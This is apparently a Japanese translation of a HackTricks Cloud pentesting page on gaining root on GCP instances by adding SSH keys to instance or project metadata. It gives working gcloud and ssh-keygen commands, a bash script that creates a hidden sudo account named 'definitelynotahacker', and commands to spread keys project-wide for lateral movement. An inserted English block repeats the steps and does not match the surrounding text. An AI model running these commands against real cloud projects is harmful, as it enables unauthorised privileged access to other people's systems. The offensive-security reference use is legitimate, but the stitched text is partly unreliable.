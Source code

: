 # GCP - カスタムSSHメタデータの追加

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks で会社を宣伝したい** または **PEASS の最新バージョンにアクセスしたい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけて、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**Telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) をフォローしましょう。
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

もしインスタンスのメタデータを変更できる場合、特権をエスカレーションするための数多くの方法があります。この権限を持つサービスアカウントにつながるいくつかのシナリオがあります:

_**デフォルトのサービスアカウント**_\
サービスアカウントのアクセス **スコープ** が **フルアクセス** に設定されているか、少なくとも **コンピュートAPIへのアクセスが明示的に許可されている** 場合、この設定はエスカレーションの **脆弱性** があります。**デフォルトのスコープ** は **脆弱性がない** です。

_**カスタムサービスアカウント**_\
カスタムサービスアカウントを使用する場合、以下のいずれかのIAM権限が特権をエスカレーションするために **必要** です:

* `compute.instances.setMetadata` (単一のインスタンスに影響を与えるため)
* `compute.projects.setCommonInstanceMetadata` (プロジェクト内のすべてのインスタンスに影響を与えるため)

Googleは[推奨しています](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance)が、カスタムサービスアカウントにアクセススコープを使用することも可能です。以下のいずれかの **アクセススコープ** が必要です:

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **カスタムメタデータにSSHキーを追加する**

GCP上の **Linuxシステム** では、通常、[Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) スクリプトが実行されています。その中の1つが [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) で、**定期的に** インスタンスのメタデータエンドポイントを **クエリ** して、**認証済みSSH公開鍵の変更** を確認します。

**新しい公開鍵が見つかった場合、それは処理され、ローカルマシンに追加されます**。鍵の形式によっては、**既存のユーザーの `~/.ssh/authorized_keys` ファイルに追加されるか、`sudo` 権限を持つ新しいユーザーが作成されます**。

したがって、サービスアカウントで **カスタムインスタンスメタデータを変更** できる場合、特権アカウントへのSSH権限を取得することで、ローカルシステムで **root権限にエスカレーション** することができます。また、**カスタムプロジェクトメタデータを変更** できる場合、アカウントデーモンを実行している **現在のGCPプロジェクト内の任意のシステム** で **root権限にエスカレーション** することができます。

### **既存の特権ユーザーにSSHキーを追加する**

最初に既存のアカウントに自分のキーを追加してみましょう。これにより、最も騒音の少ない方法で行うことができます。

**既存のSSHキーを持つユーザーをインスタンスで確認**してください。これらのユーザーのうちの1人を選択し、おそらくsudo権限を持っているでしょう。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
## Add Custom SSH Metadata

To escalate privileges in Google Cloud Platform (GCP), you can add custom SSH metadata to a GCP instance. This allows you to gain SSH access to the instance with elevated privileges.

To add custom SSH metadata, follow these steps:

1. Open the GCP Console and navigate to the Compute Engine page.
2. Select the instance to which you want to add custom SSH metadata.
3. Click on the "Edit" button at the top of the page.
4. Scroll down to the "Custom metadata" section.
5. Click on the "Add item" button.
6. In the "Key" field, enter `ssh-keys`.
7. In the "Value" field, enter the SSH public key that you want to use for authentication.
8. Click on the "Save" button to save the changes.

Once the custom SSH metadata is added, you can SSH into the GCP instance using the specified SSH public key. This will grant you elevated privileges on the instance.

It is important to note that adding custom SSH metadata requires the necessary permissions in GCP. Make sure you have the appropriate permissions before attempting this privilege escalation technique.
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
公開鍵の形式が**少し変わっている**ことに注意してください - ユーザー名が**先頭**にリストされ（コロンに続いて）、再び**末尾**にリストされています。この形式に合わせる必要があります。通常のSSH鍵の操作とは異なり、ユーザー名は重要です！

ユーザー名と鍵の行を新しいテキストファイル`meta.txt`に**保存**します。

上記の例でユーザー`alice`をターゲットにしていると仮定しましょう。次のように、自分自身のために**新しい鍵を生成**します：
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
新しい公開鍵を`meta.txt`ファイルに追加し、以下の形式を模倣してください：
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
以下のコマンドを使用して、インスタンスのSSHキーメタデータを**再書き込み**できます。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
次のようにして、`alice`のコンテキストでシェルにアクセスできます：

```bash
ssh alice@<instance-ip>
```

Replace `<instance-ip>` with the IP address of the instance you want to access.
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **特権ユーザーを作成し、SSHキーを追加する**

上記の手順に従っても既存のキーが見つからない場合、`/etc/passwd`に興味深い他のユーザーはいませんか？

上記と同じ手順に従い、ただ新しいユーザー名を作成するだけで**同じプロセスを実行**できます。このユーザーは自動的に作成され、`sudo`の権限が与えられます。スクリプトを使用すると、プロセスは次のようになります：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルのSSHキー <a href="#sshing-around" id="sshing-around"></a>

前のセクションで説明した詳細に従って、さらにVMを侵害しようとすることができます。

[**プロジェクトレベルでSSHキーを適用する**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide)ことにより、明示的に「プロジェクト全体のSSHキーをブロックする」オプションを選択していない場合、特権アカウントにSSHできる権限が与えられます。
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
もし本当に大胆なら、単に `gcloud compute ssh [INSTANCE]` と入力するだけで、他のボックスで現在のユーザー名を使用することもできます。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks であなたの会社を宣伝したい** または **PEASS の最新バージョンにアクセスしたい** または **HackTricks を PDF でダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけて、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを発見しましょう
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) をフォローしてください。
* **ハッキングのトリックを共有するために、PR を** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **の GitHub リポジトリに提出してください。**

</details>
